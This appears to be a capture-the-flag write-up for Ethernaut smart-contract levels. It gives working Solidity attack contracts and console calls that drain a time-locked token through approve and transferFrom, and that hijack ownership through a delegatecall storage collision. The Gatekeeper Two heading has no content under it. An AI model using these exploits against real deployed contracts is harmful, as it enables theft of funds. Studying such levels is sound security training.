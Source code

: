 ## Gatekeeper Two



## Naught Coin
This contract locks the transfer function for 10 years. But it is possible to use the approve() and transferFrom() to transfer funds.

```
contract.approve(_spenderAddress, await contract.totalSupply())
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ERC20 {
    function allowance(address _owner, address _spender) external view returns (uint256 remaining);
    function transferFrom(address _from, address _to, uint256 _value) external returns (bool success);
}


contract NaughtAttack {

  function attack(address vulnCoin) public {
      uint256 amount = ERC20(vulnCoin).allowance(msg.sender, address(this));
      ERC20(vulnCoin).transferFrom(msg.sender, address(this), amount);
  }
}
```


## Preservation
We are going to exploit delegatecall(). First, we can see that the LibraryContract does modify the first storage slot, which is the address of the library in the context of the vulnerable contract. So, we are able to modify this address to set it to an attacker contract. Our attacker contract will modify the third slot, to modify the owner address.

```
// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;
  uint tmp2;
  uint maliciousAddress;

  function setTime(uint _time) public {
    maliciousAddress = uint256(uint160(0xA86E1A2daA9B2F79E06FB6cc4624C39CC3Db6F56));
  }
}
```
Launch the function two time, the first execution will set the library address to the attacker contract. The second one will modify the owner.
```
contract.setFirstTime("0x32E1e47BC0D8Dd96aaf1EdA95ffE3eC55c0892E9")
contract.setFirstTime("0x32E1e47BC0D8Dd96aaf1EdA95ffE3eC55c0892E9")
```
